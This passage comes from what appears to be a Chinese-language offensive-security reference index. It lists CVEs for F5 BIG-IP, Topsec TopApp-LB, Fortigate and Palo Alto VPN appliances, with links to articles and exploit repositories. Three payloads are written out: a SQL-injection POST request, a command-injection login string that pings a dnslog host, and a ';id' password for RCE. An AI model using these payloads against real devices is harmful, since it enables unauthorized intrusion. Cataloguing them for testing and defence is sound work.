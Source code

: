     - POC | Payload | exp
        - [jas502n/CVE-2020-5902](https://github.com/jas502n/CVE-2020-5902)
        - [theLSA/f5-bigip-rce-cve-2020-5902](https://github.com/theLSA/f5-bigip-rce-cve-2020-5902)

- **CVE-2021-22986 F5 BIG-IP RCE**
    - 相关文章
        - [CVE-2021-22986：BIG-IP/BIG-IQ未授权RCE](https://mp.weixin.qq.com/s/-WScu2pgUjvjEqWKt5f19A)
        - [F5 BIG-IP CVE-2021-22986 验证及利用](https://mp.weixin.qq.com/s/lPTSPB_JMO9DxBaKxF61GA)

    - POC | Payload | exp
        - [h4x0r-dz/RCE-Exploit-in-BIG-IP](https://github.com/h4x0r-dz/RCE-Exploit-in-BIG-IP)
        - [Al1ex/CVE-2021-22986](https://github.com/Al1ex/CVE-2021-22986)

**天融信 Top-app LB**
- **SQL注入漏洞**
    - POC | Payload | exp
        - [天融信Top-app LB负载均衡SQL注入漏洞](https://www.hedysx.com/2601.html)
            ```
            POST /acc/clsf/report/datasource.php HTTP/1.1
            Content-Type: application/x-www-form-urlencoded

            t=l&e=0&s=t&l=1&vid=1+union select 1,2,3,4,5,6,7,8,9,substr('a',1,1),11,12,13,14,15,16,17,18,19,20,21,22-- &o=r_Speed&gid=0&lmt=10&asc=false&p=8&lipf=&lipt=&ripf=&ript=&dscp=&proto=&lpf=&lpt=&rpf=&rpt=
            ```
- **未授权**
    - POC | Payload | exp
        - [天融信负载均衡TopApp-LB系统无需密码直接登录](https://www.uedbox.com/post/21626/)
            ```
            登录框
            ; ping xxx.dnslog.info; echo
            ```

- **RCE**
    - POC | Payload | exp
        - [天融信TopApp-LB负载均衡命令执行漏洞大量设备可被通杀](https://www.uedbox.com/post/22193/)
            ```
            用户名随意  密码：;id
            ```

---

## VPN

**Fortigate SSL VPN**
- **CVE-2018-13379 Fortigate SSL VPN 密码读取**
    - [milo2012/CVE-2018-13379](https://github.com/milo2012/CVE-2018-13379)
- **CVE-2018-13382 Fortigate SSL VPN 任意密码重置**
    - [milo2012/CVE-2018-13382](https://github.com/milo2012/CVE-2018-13382)

**Palo_Alto SSL VPN**
- **CVE-2019-1579 Palo Alto GlobalProtect 远程代码执行漏洞**
    - 相关文章
        - [Orange: Attacking SSL VPN - Part 1: PreAuth RCE on Palo Alto GlobalProtect, with Uber as Case Study!](https://blog.orange.tw/2019/07/attacking-ssl-vpn-part-1-preauth-rce-on-palo-alto.html)
        - [Palo Alto GlobalProtect上的PreAuth RCE](https://www.cnblogs.com/backlion/p/11209054.html)
